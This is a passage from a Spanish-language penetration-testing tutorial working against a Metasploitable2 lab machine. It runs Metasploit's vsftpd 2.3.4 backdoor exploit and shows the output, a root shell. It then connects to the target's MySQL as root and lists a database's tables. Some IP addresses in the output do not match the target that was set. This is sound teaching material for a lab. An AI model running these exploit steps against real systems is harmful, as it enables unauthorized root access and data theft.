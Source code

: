 ```sh
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```

Ahora sólo es cuestión de pasarle la información sobre el objetivo a atacar, en este caso `192.168.0.17` y ejecutar el exploit.

```sh
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 192.168.0.17
rhosts => 192.168.0.17
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 192.168.0.28:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.0.28:21 - USER: 331 Please specify the password.
[+] 192.168.0.28:21 - Backdoor service has been spawned, handling...
[+] 192.168.0.28:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.0.18:36673 -> 192.168.0.17:6200)

whoami
root
```

Hemos ganado acceso a la máquina.

#### Exploitdb

### **Fase Post-explotación**

La fase de post-explotación en el PenTesting se refiere principalmente a la búsqueda de maneras de elevar nuestro acceso al sistema. Uno de los ejemplos más básicos de esto es, tras adquirir acceso a un usuario, tratar de ganar acceso a nivel de `root` para así tener más control sobre el sistema.

Para los propósitos de esta guía no estamos interesados en realizar dicha elevación de permisos. Esto se debe a que el hacerlo requeriría muchos más conocimientos en términos tanto de sistemas operativos y de seguridad. Lo más cercano a esto estaría en la búsqueda de información de caracter sensible dentro del sistema con el fin de demostrar el alcance de la vulnerabilidad explotada.

Recordando el acceso que tuvimos a la base de datos de `MySQL` en la máquina de `Metasploitable2`, es posible realizar una exploración más profunda dentro de la base de datos con el fin de entender que datos pudieron haber sido comprometidos en caso de que un verdadero atacante hubiera explotado esta vulnerabilidad.

```sh
# Se realiza la conexión a la base de datos
mysql -u root -p -h 192.168.0.17

MySQL [(none)]> show databases;
MySQL [(none)]> use tikiwiki;
MySQL [tikiwiki]> show tables;
```

[Resultado de la ejecución](https://gist.github.com/MrDahaniel/761f9814167b4c63aebccaffe3d6108f)

